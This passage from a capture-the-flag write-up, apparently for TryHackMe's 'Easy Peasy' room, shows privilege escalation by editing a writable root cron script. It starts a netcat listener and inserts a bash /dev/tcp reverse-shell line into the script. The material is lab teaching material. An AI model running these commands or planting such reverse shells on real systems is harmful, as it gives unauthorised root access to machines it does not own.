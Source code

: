 Opening ``.mysecretcronjob.sh`` shows us that the following will run as root
```bash
boring@kral4-PC:/var/www$ cat .mysecretcronjob.sh 
#!/bin/bash
# i will run as root
```

Running `which nano` reveals that nano is installed.
```bash
boring@kral4-PC:/var/www$ which nano
/bin/nano
```
We can use it to edit the bash script and create a reverse shell.


Let's start by creating a netcat listener on our end (attacker's machine)
```bash
┌──(thelant3rn㉿Kali)-[~/CTFs/easy_peasy]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

We add the following reverse shell script:
`bash -i >& /dev/tcp/YOUR_IP_ADDRESS/SAME_PORT_AS_LISTENER 0>&1` into the script, save it, wait for it to run for our listener to receive the incoming connection.
![tryhackmewriteup](/docs/assets/images/29.png)
